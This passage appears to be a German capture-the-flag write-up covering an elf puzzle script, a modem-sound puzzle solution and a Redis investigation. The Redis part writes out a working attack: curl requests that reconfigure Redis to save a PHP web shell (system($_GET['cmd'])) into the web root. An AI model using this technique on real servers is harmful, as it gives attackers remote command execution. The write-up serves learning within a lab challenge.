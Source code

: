   moveSteps = moveSteps + 2
  leverSum = leverSum + elf.get_lever(leverNr)
  elf.pull_lever(leverSum)
  elf.moveUp(2)
}
elf.tell_munch(getLolKeyFromJson)
elf.moveRight(11)
</code></pre>

## Kitchen

### 33.6 Kbps

Mit Trial-and-Error:

Nu = Numbers

be = baaDeebrr

WE = WEwwee

SC = SCHHRR

aa = aaah

ba = baaDEERR

x Nu-ba-WE-SC -> Hang up at WE

x Nu-aa-ba-WE-SC -> Hang up at aa

x Nu-ba-aa-WE-SC -> Hang up at SC

Am Ende hat 

**Nu-ba-aa-WE-be-SC**

funktioniert

### Redis Investigation

Nutzend

<pre><code class="bash">alias urlencode
urlencode=$'python3 -c "import sys, urllib.parse as ul; \\\n    print (ul.quote_plus(sys.argv[1]))"'

urlencode '"&lt;?php system($_GET[&#39;cmd&#39;]);?&gt;"'                      
%22%3C%3Fphp+system%28%24_GET%5Bcmd%5D%29%3B%3F%3E%22
</code></pre>

<pre><code class="bash">curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,rce.php
curl http://localhost/maintenance.php?cmd=set,test,%22%3C%3Fphp+system%28%24_GET%5Bcmd%5D%29%3B%3F%3E%22
curl http://localhost/maintenance.php?cmd=save
</code></pre>

